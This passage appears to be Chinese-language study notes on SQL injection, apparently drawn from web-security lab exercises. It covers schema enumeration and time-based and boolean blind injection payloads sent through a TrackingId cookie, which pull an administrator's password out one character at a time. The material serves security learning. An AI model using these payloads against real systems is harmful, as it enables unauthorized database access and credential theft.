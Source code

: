    ```sql
   (NO ORACLE)
   SELECT * FROM information_schema.tables   *改为table_name会好点
   TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
   ===================================================
   MyDatabase     dbo           Users       BASE TABLE
   
   SELECT * FROM information_schema.columns WHERE table_name = 'Users'   * 改为column_name
   TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
   ===============================================================
   MyDatabase     dbo           Users       Username     varchar
   
   (FOR Oracle)
   SELECT * FROM all_tables
   SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
   
   最后查询某个数据库的某几列的信息
   select user,password from mysql.user
   ```



4. SQL盲注 意味着程序不会返回任何的信息

   > 可使用burp suite 的intruder功能遍历

   1. 增加查询时间 查看程序响应的时间 适用于程序同步处理请求.    Three

      ```sql
      确认是否可以利用响应时间盲注   %3B == ; 用于cookie
      TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
      确认表是否存在
      '%3BSELECT+CASE+WHEN+(SELECT COUNT(*) FROM information_schema.tables WHERE table_name = 'users')=1+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
      
      确认是否存在用户
      TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
      确认密码长度
      TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
      确认密码
      TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
      
      
      
      '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) = 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
      如果用户名Administrator当且仅有一个，且密码开头是m,则等待delay秒
      
      ```

   2. OAST 带外程序安全测试 让程序发起请求  适用于程序异步处理请求  Four

   3.  添加查询逻辑AND OR 查看页面不同 ： 数据库根据cookie来分析用户浏览记录，cookie查询失败时，可能会导致页面发生变化，根据这点进行盲注.   One

   ```sql
   确认是否可以触发数据库错误
   TrackingId=xyz' AND '1'='2
   确认users表是否存在
   TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
   确认用户是否存在
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
   确认密码长度
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=2)='a
   开始注入
   TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
   ```